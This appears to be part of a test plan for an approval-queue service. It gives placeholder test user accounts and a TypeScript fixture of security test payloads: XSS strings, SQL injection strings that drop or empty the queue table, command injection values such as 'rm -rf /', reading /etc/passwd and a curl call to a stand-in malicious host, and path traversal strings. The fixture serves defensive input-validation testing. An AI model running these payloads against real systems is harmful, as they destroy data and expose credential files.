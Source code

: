 ### Test User Accounts
```yaml
operator-1:
  id: "11111111-1111-1111-1111-111111111111"
  email: "operator1@test.local"
  role: "operator"
  permissions: [approvals:view, approvals:approve, approvals:edit]

operator-2:
  id: "22222222-2222-2222-2222-222222222222"
  email: "operator2@test.local"
  role: "operator"
  permissions: [approvals:view, approvals:approve]

admin-1:
  id: "aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa"
  email: "admin@test.local"
  role: "admin"
  permissions: [*]
```

### Malicious Test Payloads

**File**: `tests/fixtures/security-payloads.ts`
```typescript
export const XSS_PAYLOADS = [
  '<script>alert("xss")</script>',
  '<img src=x onerror=alert("xss")>',
  '"><script>alert(String.fromCharCode(88,83,83))</script>',
  '<svg/onload=alert("xss")>',
  '<iframe src="javascript:alert(\'xss\')">',
  '<body onload=alert("xss")>',
  '<input onfocus=alert("xss") autofocus>',
  '<object data="data:text/html,<script>alert(\'xss\')</script>">'
];

export const SQL_INJECTION_PAYLOADS = [
  "'; DROP TABLE agent_sdk_approval_queue; --",
  "' OR '1'='1",
  "1' UNION SELECT * FROM users--",
  "' OR 1=1--",
  "admin'--",
  "1'; DELETE FROM agent_sdk_approval_queue WHERE '1'='1"
];

export const COMMAND_INJECTION_PAYLOADS = [
  '; ls -la',
  '| cat /etc/passwd',
  '`whoami`',
  '$(curl malicious.com)',
  '; rm -rf /',
  '&& echo hacked'
];

export const PATH_TRAVERSAL_PAYLOADS = [
  '../../../etc/passwd',
  '..\\..\\..\\windows\\system32\\config\\sam',
  '....//....//....//etc/passwd',
  '%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd'
];
```

---